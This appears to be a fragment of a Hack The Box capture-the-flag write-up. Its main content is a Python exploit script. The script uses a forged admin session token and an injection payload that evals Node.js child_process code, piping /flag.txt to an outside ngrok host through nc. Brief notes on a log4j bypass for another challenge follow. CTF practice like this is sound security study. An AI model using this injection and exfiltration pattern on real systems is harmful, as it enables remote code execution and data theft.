 ```python
import requests
from base64 import b64encode

url = 'http://159.65.19.24:30081/'

cookies = {
	'session': 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjU0MTg3Njk1fQ.jv0_P_Kaek5GG0PncV9FlZz_0C_twsqkGyyqNhGeShI'
}

headers = {
	'Accept': '*/*',
	'Accept-Language': 'en-US,en;q=0.9,vi;q=0.8',
	'Connection': 'keep-alive',
	'Content-Type': 'application/json',
	'Origin': 'http://localhost:1337',
	'Referer': 'http://localhost:1337/',
	'Sec-Fetch-Dest': 'empty',
	'Sec-Fetch-Mode': 'cors',
	'Sec-Fetch-Site': 'same-origin',
	'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Safari/537.36',
	'sec-ch-ua': 'Not A;Brand";v="99", "Chromium";v="101", "Google Chrome";v="101"',
	'sec-ch-ua-mobile': '?0',
	'sec-ch-ua-platform': 'Linux',
}

payload = "a', a=(eval(\"global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt|nc 0.tcp.ap.ngrok.io 19840')\")), b='a"

data = {
	'activity': payload,
	'health': '1',
	'weight': '1',
	'happiness': '1',
}

r = requests.post(url+'api/activity', json=data, cookies=cookies, allow_redirects=False, headers=headers)

print(r.text)

# HTB{s0rry_1m_n07_1nt0_typ3_ch3ck5}
```

**flag**: `pass`

## Genesis Wallet's Revenge

## CheckpointBots
log4j với 1 chút bypass

Dùng package `log4j`:

![ef9284ce1c077cc045f5021071ea107f](https://user-images.githubusercontent.com/71699412/170280577-173b6cf9-a209-4caf-9231-96c0ee716463.png)
               
                    
**write up**: https://blog.csdn.net/qq_53263789/article/details/124892879
